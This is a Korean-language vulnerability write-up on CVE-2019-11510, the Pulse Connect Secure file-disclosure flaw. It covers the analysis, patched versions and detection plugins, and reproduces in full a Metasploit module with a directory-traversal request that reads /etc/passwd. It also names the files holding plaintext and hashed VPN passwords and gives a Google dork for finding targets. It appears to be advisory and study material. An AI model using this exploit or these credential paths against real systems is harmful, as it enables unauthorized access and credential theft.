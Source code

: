 # CVE-2019-11510

## 개요
[CVE-2019-11510](https://nvd.nist.gov/vuln/detail/CVE-2019-11510)는 임의 파일 노출 취약성으로, 2019년 4월 초 상용 VPN solution으로 쓰이는 Pulse Connect Secure(PCS)에서 Orange Tsai와 Meh Chang에 의해 발견되었다.

이 결함을 통해 인증되지 않은 해커가 configuration settings와 같은 **중요한 정보**를 포함하여 취약한 장치에서 발견된 모든 파일의 내용을 읽을 수 있다.


## 분석
이 취약점을 통해 해커는 directory traversal sequence가 포함된 악의적인 HTTP 요청을 Uniform Resource Identifier(URI)와 함께 보내 취약 장치의 모든 파일에 접근할 수 있었다. 이것은 해커가 장치의 중요한 정보에 대한 접근 또한 제공하며, 이 공격은 그들이 발견한 다른 취약점들과 연계될 수 있다.

사용자가 VPN의 관리 인터페이스에 로그인하면, 일반 텍스트 암호가 */data/runtime/mtmp/lmdb/data.mdb*에 저장된다. 해커는 위의 방법을 사용하여 파일을 얻고, 사용자의 암호를 추출한 다음 장치에 로그인 할 수 있다. 로그인 후 장치는 관리 웹 인터페이스에서 **command injection 취약점**인 [CVE-2019-11539](https://nvd.nist.gov/vuln/detail/CVE-2019-11539) 에 노출된다.  
또한, 사용자 자격증명을 갖게 되어 인증된 사용자가 악의적인 파일을 업로드 하고 임의 파일을 호스트에 쓸 수 있도록 허용하는 **Network File Share(NFS) 의 취약점**인 [CVE-2019-11508](https://nvd.nist.gov/vuln/detail/CVE-2019-11508)에도 노출된다.

이 취약점은 또한 해커가 캐시된 자격 증명을 찾을 수 없는 경우에도 */data/runtime/mtmp/system*에 접근하여 사용자 및 해시된 암호 목록을 수집하여 충분한 시간과 노력을 통해 해시를 크래킹하여 자격 증명으로 로그인할 수 있다.  

아래 사진은 당시 이 취약점으로 패치가 적용되지 않은 경우 영향을 받을 수 있는 42,000개 이상에 대한 Shodan 검색 결과이다.  
![Shodan](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/ShodanMap.png)
이미지 출처: https://www.shodan.io  

## Proof of concept (PoC)
PoC는 2019년 8월 20일에 [Exploit Database](https://www.exploit-db.com/exploits/47297)에 [Alyssa Herrera](https://twitter.com/Alyssa_Herrera_)와 [Justin Wagner](https://twitter.com/0xDezzy)가 작성한 취약성 모듈이 게시되었다.  

<details>
<summary>코드 보기</summary>
<div markdown="1">

```ruby
# Exploit Title: File disclosure in Pulse Secure SSL VPN (metasploit)
# Google Dork: inurl:/dana-na/ filetype:cgi
# Date: 8/20/2019
# Exploit Author: 0xDezzy (Justin Wagner), Alyssa Herrera
# Vendor Homepage: https://pulsesecure.net
# Version: 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
# Tested on: Linux
# CVE : CVE-2019-11510 
require 'msf/core'
class MetasploitModule < Msf::Auxiliary
	include Msf::Exploit::Remote::HttpClient
	include Msf::Post::File
	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Pulse Secure - System file leak',
			'Description'    => %q{
				Pulse Secure SSL VPN file disclosure via specially crafted HTTP resource requests.
        This exploit reads /etc/passwd as a proof of concept
        This vulnerability affect ( 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
			},
			'References'     =>
			    [
			        [ 'URL', 'http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11510' ]
			    ],
			'Author'         => [ '0xDezzy (Justin Wagner), Alyssa Herrera' ],
			'License'        => MSF_LICENSE,
			 'DefaultOptions' =>
		      {
		        'RPORT' => 443,
		        'SSL' => true
		      },
			))

	end


	def run()
		print_good("Checking target...")
		res = send_request_raw({'uri'=>'/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/'},1342)

		if res && res.code == 200
			print_good("Target is Vulnerable!")
			data = res.body
			current_host = datastore['RHOST']
			filename = "msf_sslwebsession_"+current_host+".bin"
			File.delete(filename) if File.exist?(filename)
			file_local_write(filename, data)
			print_good("Parsing file.......")
			parse()
		else
			if(res && res.code == 404)
				print_error("Target not Vulnerable")
			else
				print_error("Ooof, try again...")
			end
		end
	end
	def parse()
		current_host = datastore['RHOST']

	    fileObj = File.new("msf_sslwebsession_"+current_host+".bin", "r")
	    words = 0
	    while (line = fileObj.gets)
	    	printable_data = line.gsub(/[^[:print:]]/, '.')
	    	array_data = printable_data.scan(/.{1,60}/m)
	    	for ar in array_data
	    		if ar != "............................................................"
	    			print_good(ar)
	    		end
	    	end
	    	#print_good(printable_data)

		end
		fileObj.close
	end
end
```

</details>  

<br>

## 해결 방안
Pulse Secure는 보고된 각 CVE에 대하 정보와 함께 보안 권고사항을 게시했다. 패치 솔루션은 다음과 같다.
|**Version installed**|**Fixed release**|
|:---:|:---:|
|Pulse Connect Secure 9.0RX|Pulse Connect Secure 9.0R3.4 & 9.0R4|
|Pulse Connect Secure 8.3RX|Pulse Connect Secure 8.3R7.1|
|Pulse Connect Secure 8.2RX|Pulse Connect Secure 8.2R12.1|
|Pulse Connect Secure 8.1RX|Pulse Connect Secure 8.1R15.1|


## 시스템 영향 여부 확인  
CVE-2019-11510([Plugin ID 127897](https://www.tenable.com/plugins/nessus/127897))에 대한 직접 공격 검사를 비롯하여 이러한 취약성을 식별하는 Tenable 플러그인 목록이 [여기](https://www.tenable.com/plugins/search?q=cves%3A(%22CVE-2019-11510%22%20OR%20%20%22CVE-2019-11508%22%20OR%20%20%22CVE-2019-11540%22%20OR%20%20%22CVE-2019-11543%22%20OR%20%20%22CVE-2019-11541%22%20OR%20%20%22CVE-2019-11542%22%20OR%20%20%22CVE-2019-11539%22%20OR%20%20%22CVE-2019-11538%22%20OR%20%20%22CVE-2019-11509%22%20OR%20%20%22CVE-2019-11507%22)&sort=&page=1)에 나열되어 있다.


---

## 요약

- 2019년 4월 초CVE-2019-11510 취약점 발견
- 공격 패턴: 취약 시스템 스캔 -> Pulse Secure VPN의 시스템 패스워드와, FortiGate VPN 세션 파일을 탈취 -> 성공시 해커는 장치의 인증을 통과하거나 실제 VPN 세션으로 위장할 수 있음
- 현재 취약 버전 업데이트를 통해 대응 가능


## 참고자료
출처 : https://www.tenable.com/blog/cve-2019-11510-proof-of-concept-available-for-arbitrary-file-disclosure-in-pulse-connect-secure